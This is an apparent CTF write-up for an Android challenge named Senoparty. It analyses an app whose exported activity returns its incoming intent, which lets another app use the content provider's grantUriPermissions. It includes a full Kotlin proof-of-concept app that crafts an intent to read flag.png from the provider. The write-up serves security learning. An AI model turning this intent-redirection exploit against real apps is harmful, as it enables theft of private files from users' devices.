 ```yaml
---
date: '2025-06-30T16:25:25+08:00'
title: 'ICSCTF Senoparty'
tags:
    - Android CTF
    - ICSCTF
---
```


## Description

> I asked for the challenge from other people so I have no idea what the description is. All I know is this challenge required me to upload my malicious APK into the server
> [Senoparty.apk](static/Senoparty.apk)

## Static Analysis

I started out using `jadx-gui` to decompile and read the code. 

```xml
<activity
    android:theme="@style/Theme.Senoparty"
    android:label="@string/app_name"
    android:name="com.example.senoparty.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme="content"/>
        <data android:scheme="file"/>
    </intent-filter>
</activity>
<provider
    android:name="com.example.senoparty.SenopartyProvider"
    android:exported="false"
    android:authorities="com.example.senoparty.SenopartyProvider"
    android:grantUriPermissions="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</provider>
```

Based on the `AndroidManifest.xml`, there's a `MainActivity` activity and a `SenopartyProvider` provider. I then first looked into the `MainActivity`.

```java
@Override // androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    EdgeToEdge.enable$default(this, null, null, 3, null);
    handleIt();
    ComponentActivityKt.setContent$default(this, null, ComposableSingletons$MainActivityKt.INSTANCE.m7104getLambda1$app_debug(), 1, null);
}

private final void handleIt() {
    try {
        new URI(getIntent().getStringExtra("android.intent.extra.STREAM"));
        Log.e("message", "Well What");
        setResult(-1);
        finish();
    } catch (NullPointerException e) {
        setResult(0);
    } catch (URISyntaxException e2) {
        setResult(0, getIntent());
        finish();
    }
}
```

Based on the code, It will get intent on `android.intent.extra.STREAM` and passed it into URI. If there's an error, it will pass to the `setResult(0, getIntent())` code. Since this is what I want, I will need to pass a string that has will cause the error.

Back to the provider, it has this code `android:grantUriPermissions="true"` which is something vulnerable. Combining with the `setResult(0, getIntent())`, it is possible to leak data by creating a malicious APK.

## Dynamic Analysis

Here's the part where I create a malicious APK to interact with it. I will write the code in Kotlin.

```kotlin
val bitmapState = remember { mutableStateOf<Bitmap?>(null) }


val startForResult = rememberLauncherForActivityResult(
    contract = ActivityResultContracts.StartActivityForResult()
) { result: ActivityResult ->
    // Handle result if needed
    Log.d("IntentDump", "Received result ${result}")
    Log.d("IntentDump",result.data?.data.toString())
    val uri = result.data?.data
    val bitmap = uri?.let {
        contentResolver.openInputStream(it)?.use { input ->
            BitmapFactory.decodeStream(input)
        }
    }
    bitmapState.value = bitmap
}

LaunchedEffect(Unit) {
    val intent = Intent().apply {
        setClassName(
            "com.example.senoparty",
            "com.example.senoparty.MainActivity"
        )
        setData(Uri.parse("content://com.example.senoparty.SenopartyProvider/flag.png"))
        putExtra(Intent.EXTRA_STREAM, ":/trigger-error")
        setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION)

    }
    startForResult.launch(intent)
}


bitmapState.value?.let{
    Image(BitmapPainter(it.asImageBitmap()),"test",modifier = Modifier.padding(innerPadding))
}
```

There are 3 main part of the Kotlin code. 

The first one is related to the `intent` where it will send one intent into the `Senoparty.apk`. This is to trigger the `MainActivity` and the intent consist of several additional information. One of it is the `putExtra(Intent.EXTRA_STREAM,":/trigger-error")` where it is used to trigger URI error to ensure that the code reach the `setResult(0,getIntent())`. The `setData` and `setFlags` is for receiving data from the `Senoparty.apk` provider.

The second part is related to `startForResult.launch` where it actually receives the information after the intent is send out and there's information sending back. If there's information, it will try to extract the data. 

The third part is related to `Image` because the received data is an image, it will required the `Image` function to be view the image.

Since I do not have the real `flag.png` with me, I just randomly add a `flag.png` and try it locally.

![alt text](img/index.png#center)

here's a simple outcome of how the images is retrieved.

### Full POC code

```kotlin
package io.ks.testingpoc

import android.app.Activity
import android.content.Intent
import android.graphics.Bitmap
import android.graphics.BitmapFactory
import android.net.Uri
import android.os.Bundle
import android.util.Log
import androidx.activity.ComponentActivity
import androidx.activity.compose.rememberLauncherForActivityResult
import androidx.activity.compose.setContent
import androidx.activity.enableEdgeToEdge
import androidx.activity.result.ActivityResult
import androidx.activity.result.contract.ActivityResultContracts
import androidx.compose.foundation.Image
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.padding
import androidx.compose.material3.Scaffold
import androidx.compose.material3.Text
import androidx.compose.runtime.Composable
import androidx.compose.runtime.LaunchedEffect
import androidx.compose.runtime.mutableStateOf
import androidx.compose.runtime.remember
import androidx.compose.ui.Modifier
import androidx.compose.ui.graphics.asImageBitmap
import androidx.compose.ui.graphics.painter.BitmapPainter
import androidx.compose.ui.tooling.preview.Preview
import io.ks.testingpoc.ui.theme.TestingPocTheme

class MainActivity : ComponentActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        enableEdgeToEdge()
        setContent {
            TestingPocTheme {
                Scaffold(modifier = Modifier.fillMaxSize()) { innerPadding ->
                    Text(
                        text = "Android",
                        modifier = Modifier.padding(innerPadding)
                    )
                    val bitmapState = remember { mutableStateOf<Bitmap?>(null) }


                    val startForResult = rememberLauncherForActivityResult(
                        contract = ActivityResultContracts.StartActivityForResult()
                    ) { result: ActivityResult ->
                        // Handle result if needed
                        Log.d("IntentDump", "Received result ${result}")
                        Log.d("IntentDump",result.data?.data.toString())
                        val uri = result.data?.data
                        val bitmap = uri?.let {
                            contentResolver.openInputStream(it)?.use { input ->
                                BitmapFactory.decodeStream(input)
                            }
                        }
                        bitmapState.value = bitmap
                    }

                    LaunchedEffect(Unit) {
                        val intent = Intent().apply {
                            setClassName(
                                "com.example.senoparty",
                                "com.example.senoparty.MainActivity"
                            )
                            setData(Uri.parse("content://com.example.senoparty.SenopartyProvider/flag.png"))
                            putExtra(Intent.EXTRA_STREAM, ":/trigger-error")
                            setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION)

                        }
                        startForResult.launch(intent)
                    }


                    bitmapState.value?.let{
                        Image(BitmapPainter(it.asImageBitmap()),"test",modifier = Modifier.padding(innerPadding))
                    }


                }
            }
        }
    }
}

```

## Things I learned from this challenge

- `android:grantUriPermissions="true"` is vulnerable, read [https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/) for more information
- writing my own POC APK in kotlin